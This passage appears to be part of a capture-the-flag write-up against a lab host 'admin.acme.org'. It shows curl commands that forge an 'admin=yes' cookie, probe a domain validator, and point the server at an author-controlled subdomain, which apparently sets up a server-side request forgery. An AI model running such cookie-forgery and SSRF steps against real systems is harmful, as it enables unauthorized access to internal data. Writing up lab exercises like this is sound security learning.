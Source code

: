 So it looks like it requires a `domain` in the JSON data. Let's give it a `domain` in the JSON then.

```sh
jazzy@lolbox ~ $ curl -X POST -H 'Content-Type: application/json' -b 'admin=yes' -d '{"domain" : "test.com"}' 'admin.acme.org' 
{"error":{"domain":"incorrect value, .com domain expected"}}
```

Umm, that's weird. The domain I provided is a `.com` domain. Let's try some more maybe.

```sh
jazzy@lolbox ~ $ curl -X POST -H 'Content-Type: application/json' -b 'admin=yes' -d '{"domain" : "test123.com"}' 'admin.acme.org' 
{"error":{"domain":"incorrect value, .com domain expected"}}

jazzy@lolbox ~ $ curl -X POST -H 'Content-Type: application/json' -b 'admin=yes' -d '{"domain" : "test.test123.com"}' 'admin.acme.org' 
{"error":{"domain":"incorrect value, sub domain should contain 212"}}
```

Okayy so, it is expecting a domain with subdomain, which has the number `212` in it's subdomain. Let's see

```sh
jazzy@lolbox ~ $ curl -X POST -H 'Content-Type: application/json' -b 'admin=yes' -d '{"domain" : "212test.test123.com"}' 'admin.acme.org' 
{"next":"\/read.php?id=0"}
```

Finally a positive response. It sends us to another file(`read.php`), which we also discovered in our initial recon with dirbuster. So we send a request to that file with the given parameter.

```sh
jazzy@lolbox ~ $ curl -b 'admin=yes' 'http://admin.acme.org/read.php?id=0'
{"data":""}
```

Well, it returns JSON with only a single key `data`, whose value is empty. I didn't really knew what it was supposed to return, so i thought of trying it with a valid domain now.

So now, we need a valid domain which has a subdomain with the number `212` in it, and it should be a .com domain. Fortunately, I knew a guy who owns a .com, and he gave me access to his CPanel.

![img](https://i.imgur.com/7ShqALn.png)

Next thing, I set up a subdomain `212lol.channelcs.com`, and hosted a `index.php` with the following PHP

```php
<?php echo "lol"; ?>
```

So it basically just echo'ed 'lol' whenever it is requested. Then I gave it a try in `admin.acme.org`

```sh
jazzy@lolbox ~ $ curl -X POST -H 'Content-Type: application/json' -b 'admin=yes' -d '{"domain" : "212lol.channelcs.com"}' 'admin.acme.org' 
{"next":"\/read.php?id=1"}

jazzy@lolbox ~ $ curl -b 'admin=yes' 'http://admin.acme.org/read.php?id=1'
{"data":"bG9s"}
```
